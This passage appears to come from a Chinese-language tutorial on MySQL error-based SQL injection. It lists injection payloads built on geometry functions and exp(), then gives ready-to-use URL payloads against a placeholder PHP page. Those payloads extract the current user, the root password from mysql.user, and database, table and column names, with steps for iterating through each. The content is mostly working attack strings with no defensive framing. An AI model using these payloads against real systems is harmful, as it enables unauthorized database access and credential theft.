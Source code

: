 ```http
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
```

#### 9.multilinestring()

```http
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

#### 10.exp()

```http
select * from test where id=1 and exp(~(select * from(select user())a));
```

## 4、实战报错注入

当前用户名

```http
http://target_sys.com/mysqlinj.php?id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

root密码

```http
http://target_sys.com/mysqlinj.php?id=1 and (extractvalue(1,concat(0x7e,(select password from mysql.user),0x7e))) 
```

查询库

```http
http://target_sys.com/mysqlinj.php?id=-1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

查询下一个库，把 FROM informFation_schema.schemata LIMIT 0,1) 这个部分的0 一直往后推可以得到所有库的名

查询表

```http
http://target_sys.com/mysqlinj.php?id=-1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

查询下一个表，把table_schema=database() LIMIT 0,1) 这个部分的0一直往后推可以得到查询库的所有表名

查询字段

查询admin的表，首先把admin 转换成十六进制，再放到语句去

```http
http://target_sys.com/mysqlinj.php?id=-1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=0x61646D696E LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```
